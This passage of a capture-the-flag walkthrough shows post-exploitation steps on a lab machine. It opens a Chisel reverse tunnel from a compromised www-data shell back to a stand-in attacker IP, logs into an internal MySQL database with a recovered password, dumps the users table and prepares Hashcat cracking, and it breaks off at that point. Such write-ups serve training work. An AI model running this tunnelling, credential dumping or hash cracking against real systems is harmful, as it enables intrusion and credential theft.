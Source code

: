     * **Step 5.1: Start Chisel Server on Attacker (New Terminal):**

        ```bash

        ./chisel server --reverse --port 1818

        ```

    * **Step 5.2: Start Chisel Client on Target (from `www-data` shell):**

        ```bash

        /tmp/chisel_linux_amd64 client <YOUR_ATTACKER_IP>:1818 3306:172.18.0.2:3306

        ```

    * **Reasoning:** This creates a tunnel, forwarding `127.0.0.1:3306` on your Kali machine to `172.18.0.2:3306` on the target's internal network.


6.  **Access MySQL Database via Forwarded Port:**

    * **Action:** Connect to the MySQL database from your attacking machine.

    * **Command:**

        ```bash

        mysql -h 127.0.0.1 -P 3306 -u robots -p

        ```

    * **Input Password:** `this_is_a_strong_password_for_a_db`


7.  **Enumerate MySQL Database for User Information:**

    * **Action:** Query the database for user data.

    * **Commands (inside `mysql>` prompt):**

        ```sql

        show databases;

        use web;

        show tables;

        select * from users;

        ```

    * **Observation:** The `users` table contained usernames (`admin`, `argiscard`) and MD5-like password hashes.


8.  **Understand Password Hashing Scheme for Cracking:**

    * **Recall Hint:** "Initial password is MD5 hash of username + date of birth (DDMM)."

    * **Deduction:** The hash format is `MD5(MD5(username + DDMM))`. This is **Hashcat mode 2600**.


9.  **Crack `argiscard`'s Password with Hashcat:**
